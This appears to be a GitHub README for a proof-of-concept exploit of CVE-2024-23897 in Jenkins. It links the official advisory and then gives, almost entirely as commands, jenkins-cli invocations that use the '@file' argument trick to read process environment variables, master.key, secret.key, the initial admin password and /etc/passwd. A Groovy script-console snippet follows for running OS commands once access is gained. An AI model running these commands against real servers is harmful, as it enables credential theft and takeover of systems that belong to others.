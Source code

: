 # poc-jenkins

# Valid for CVE-2024-23897

## Official Security Advisory: 
https://www.jenkins.io/security/advisory/2024-01-24/

### Download jar 
wget <url>/jnlpJars/jenkins-cli.jar

## Reading only one line
### Read Jenkins home directory | check HOME=
java -jar jenkins-cli.jar -s <url> -http help 1 "@/proc/self/environ"

### Read master key,"key encryption key", used to encrypt and decrypt keys, is stored unencrypted
java -jar jenkins-cli.jar -s <url> -http help 1 "@/var/jenkins_home/secrets/master.key"

### Read secret key, used to encrypt and decrypt data from credentials.xml
java -jar jenkins-cli.jar -s <url> -http help 1 "@/var/jenkins_home/secret.key"

### Read initial admin password, if exists
java -jar jenkins-cli.jar -noCertificateCheck -s <url> who-am-i "@/var/jenkins_home/secrets/initialAdminPassword"

### Read entire file, if anonymous mode is enabled
java -jar jenkins-cli.jar -s <url> -http connect-node "@/etc/passwd"

### Once you have a password, and initial access is granted
check /script endpoint
script to execute: 
def proc = "id".execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);








